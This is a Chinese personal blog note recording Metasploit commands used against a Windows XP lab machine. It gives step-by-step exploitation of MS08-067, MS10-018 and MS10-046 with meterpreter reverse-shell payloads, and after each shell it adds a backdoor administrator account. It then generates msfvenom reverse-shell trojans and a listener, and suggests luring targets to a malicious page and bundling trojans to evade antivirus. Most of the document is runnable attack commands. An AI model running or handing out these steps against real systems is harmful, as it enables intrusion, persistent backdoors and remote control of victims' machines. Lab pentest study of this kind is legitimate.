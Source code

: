 ```yaml
---
title: Metasploit 的一些渗透命令记录
date: 2017-08-12 11:51:36
tags: [干货]
categories: 笔记
---
```

## 学黑客技术必备啊
### 简单来说，Metasploit是一款开源的安全漏洞检测工具，它本身附带一千多个渗透方式，和数百种攻击载荷
##### 来看看长啥样
![](1502693518259026341.png)

## 下面记录关于windows xp 系统的一些漏洞。进行攻击的命令记录
### 测试环境：
#### 1、kali2.0
#### 2、windows xp pro

## 1、漏洞： ms08_067 
```
# 可通过命令来查看详情:search ms08_067
use exploit/windows/smb/ms08_067_netapi    //使用exploit
set payload windows/meterpreter/reverse_tcp  //设置攻击载荷
show options  	//查看参数配置
set RHOST 192.168.12.131   //设置目标主机ip ，我这里的目标主机为192.168.12.131
set LHOST 192.168.12.130   //设置本机ip ，我这里的本主机为192.168.12.130
set target 0        //这个设置自动
run  //开始攻击
# 获取到反弹的shell
shell   //进入对方电脑的终端
```
## 2、漏洞 ms10_018（浏览器提权）
```
# 同样的我们看看这个漏洞(搜索)：search ms10_018
use exploit/windows/browser/ms10_018_ie_behaviors    //使用exploit
set payload windows/meterpreter/reverse_tcp  //设置攻击载荷
show options  	//查看参数配置
set SRVHOST 192.168.12.130   //设置服务器主机ip ，我这里的目标主机为192.168.12.130
set LHOST 192.168.12.130   //设置本机ip ，我这里的本主机为192.168.12.130
set URIPATH test        //这个设置项目名为test
exploit  //开始渗透		
# 等待目标访问我们的网页，或者引诱目标访问我们的网页
# 获取到session(当出现类似： Successfully migrated to services.exe (680) 这样就是成功了)
sessions -i //查看 session
session -i 1 //选择id ，1就是id
# 获得shell
# 可以在对方的系统上添加一个管理员权限：命令如下
net user admin admin123 /add //这条命令的意思是新建一个用户admin,密码为admin123
net localgroup administrators admin /add //这条命令的意思是吧admin 添加到管理员组
```

## 3、漏洞 ms10_046（快捷方式漏洞）
```
# 同样的我们看看这个漏洞(搜索)：search ms10_046
use exploit/windows/browser/ms10_046_shortcut_icon_dllloader    //使用exploit
set payload windows/meterpreter/reverse_tcp  //设置攻击载荷
show options  	//查看参数配置
set SRVHOST 192.168.12.130   //设置服务器主机ip ，我这里的目标主机为192.168.12.130
set LHOST 192.168.12.130   //设置本机ip ，我这里的本主机为192.168.12.130
run        //开始渗透	
exploit	
# 等待目标访问我们的网页，或者引诱目标访问我们的网页(或者http://192.168.12.130:80/) 或者文件夹里访问：\\192.168.12.130\ILSSNnFb\ 
# 获取到session(当出现类似： Successfully migrated to services.exe (680) 这样就是成功了)
sessions -l //查看 session
session -i 1 //选择id ，1就是id
# 获得shell
# 可以在对方的系统上添加一个管理员权限：命令如下
net user admin admin123 /add //这条命令的意思是新建一个用户admin,密码为admin123
net localgroup administrators admin /add //这条命令的意思是吧admin 添加到管理员组
```

> #### 当我们没有发现漏洞的时候，我们就可以利用木马进行攻击了。但是现在的杀毒软件挺成熟的，普通生成的木马容易被发现，所有我们要做的事学会免杀，或者可以和其他软件进行捆绑。
> #### 免杀是一门高级的学问，在这里就不再讲述了，下面介绍的是用msfvenom 生成木马。

## 4、木马生成
```
# 当没有漏洞的时候，就可以使用木马来进行渗透了。
# 利用 msfvenom 工具生成木马
# -p 是设置payload, -f 是生成文件的格式 /root/muma.exe 是生成的文件名
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.12.130 LPORT=1234 -f exe > /root/muma.exe 	
# 上面是exe 的格式，java的格式如下：
msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.12.130 LPORT=1234 -f jar > /root/muma.jar
# 如果是java 下面的set payload 也要改成和生成文件的payload 的一致。
# 打开msfconsole进行监听
use exploit/multi/handler			//
set payload windows/meterpreter/reverse_tcp  //设置载荷
set LHOST 192.168.12.130   //设置本机地址
set LPORT 1234   //设置监听端口，这个和上面用msfvenom 设置的端口一致
run  //开始渗透
获取到shell
```

> 说下废话，哥当年选计算机专业，就是感觉黑客很牛掰，黑着黑那的很神奇。但是现在发现和我想的不太一样呢。没想到计算机行业有那么多分类。
> 黑客技术很高深，要好好学，研究才行，哥只是个业余的。
> 
